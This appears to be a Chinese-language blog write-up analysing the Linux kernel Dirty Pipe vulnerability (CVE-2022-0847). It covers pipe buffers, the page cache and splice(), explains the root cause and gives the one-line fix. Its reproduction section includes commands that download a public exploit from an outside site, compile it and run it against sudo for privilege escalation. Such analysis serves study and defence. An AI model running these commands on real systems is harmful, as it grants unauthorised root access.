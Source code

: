 ```yaml
---
title: CVE-2022-0847
date: 2025-04-11
tags:
    - Linux Kernel
    - 漏洞分析
    - 漏洞复现
---
```


## CVE-2022-0847


### 漏洞原理


#### 管道(pipe)


pipe是linux内核提供的一个通信管道，可以通过pipe()函数创建，通过pipe()函数可以获取到两个文件描述符，分别负责接受数据和发送数据。pipe是以页的形式进行管理，通常pipe缓存空间总长度为65536字节，也就是16页,16个页以数组的方式进行存储，组成一个环形链表的结构(pipe->bufs[0]~pipe->bufs[15])，pipe有两个链表指针，一个负责写(pipe->head)，一个用来读(pipe->tail)。



通过对pipe进行写操作时，会调用到pipe的pipe_write()函数，下面主要对该函数进行简单介绍：  
该函数中存在两个逻辑：



1. 如果当前负责写的链表指针(pipe->head)指向的页的flags标志位存在PIPE_BUF_FLAG_CAN_MERGE，并且写入指定长度后不会出现跨页，那么就会继续往这个页中写入数据。
2. 如果不能在当前页续写，就会重新申请一个页，并且新页的flags标志位默认初始化为PIPE_BUF_FLAG_CAN_MERGE  
至于为什么第二点要把新页的flags标志位默认初始化为PIPE_BUF_FLAG_CAN_MERGE，因为对于pipe来说，默认状态下是允许对页进行续写的，这样可以节省空间。



#### Linux内核page cache机制


linux 文件缓存页(page cache)是Linux内核中用于缓存文件系统数据的一种机制，当一个进程访问一个文件时，内核会首先检查这个文件是否已经被缓存到页缓存中。如果文件已经被缓存，则内核会直接从页缓存中读取数据并返回给进程，避免了从磁盘中读取数据的开销。如果文件没有被缓存，则内核会将文件的数据读取到页缓存中，并从缓存中返回数据给进程，以提高性能。文件缓存页会在内核层的内存中存留一段时间(可能会一直持续到下次重启电脑)。



#### splice()系统调用


splice()系统调用是零拷贝技术的其中一种，可以自行学习零拷贝相关知识，但在此处对理解漏洞影响不大。  
splice零拷贝的方式就是，直接让pipe的缓存页指向文件缓存页，也就是使pipe->bufs[x]->page直接指向page cache。  
这一部分主要由splice()系统调用下的copy_page_to_iter_pipe()函数来实现  
但是copy_page_to_iter_pipe()函数中，在将pipe的缓存页指向文件缓存页后，并没有把pipe的缓存页的flags标志位初始化，形成了一个未初始化漏洞。



#### 漏洞场景


为什么说这是一个漏洞？考虑这样一个情景：



+ 申请一个pipe，并且向其中写入数据，把pipe的16个页全部写满一遍，那么根据pipe的pipe_write()函数的第二个逻辑，整个pipe的16个缓存页的flags标志位都会设置PIPE_BUF_FLAG_CAN_MERGE
+ 再通过读操作，把pipe的全部内容读取一遍，此时pipe将会被认定为一个空的管道(pipe是一个环形链表，全部读一遍之后两个链表指针又回到了初始状态)，但是pipe中的16个缓存页的flags标志位依旧设置有PIPE_BUF_FLAG_CAN_MERGE，并没有被清除掉。
+ 然后通过splice()系统调用，将文件A的文件缓存页传递给pipe的缓存页，假设该pipe的缓存页为pipe->bufs[2]，那么此时pipe-bufs[2]的flags依旧设置有PIPE_BUF_FLAG_CAN_MERGE，也就是说，如果继续向pipe写入数据，并且写入数据长度不会出现跨页的情况，就能继续向bufs[2]里续写，尽管bufs[2]此刻已被判断为是文件A
+ 继续向pipe中写入一段数据，只要写入的长度不会导致跨页，就会直接对内核中的文件缓存页的内容进行修改，之后如果访问文件A，那么根据Linux内核page cache机制，将会直接获取到内存中的文件A的内容。相当于实现了对可读文件暂时性的任意写的功能。



其实上述的情景就是一些EXP的攻击思路了，如果能够理解这个情景将会对之后理解EXP有很大帮助。



### 漏洞复现


```plain
wget https://haxx.in/files/dirtypipez.c
gcc dirtypipez.c -o dirtypipez
./dirtypipez `which sudo`
```



### 漏洞利用脚本分析


查看`https://haxx.in/files/dirtypipez.c`的源码进行分析：



prepare_pipe()函数负责将pipe的全部缓存页的flags设置PIPE_BUF_FLAG_CAN_MERGE,其实就是做了上述情景的前两步  
hax()函数负责向指定文件写入指定的内容，其思路与上述情景一致  
通过向具有SUID特权位的文件(这也是使用which sudo作为参数的原因)写入内容，然后执行，实现任意代码执行的效果。



### 漏洞修复


漏洞根本原因在于splice()系统调用的copy_page_to_iter_pipe()函数没有初始化flags，因此在其中加入这样一行代码即可：



```plain
buf->flags=0;
```

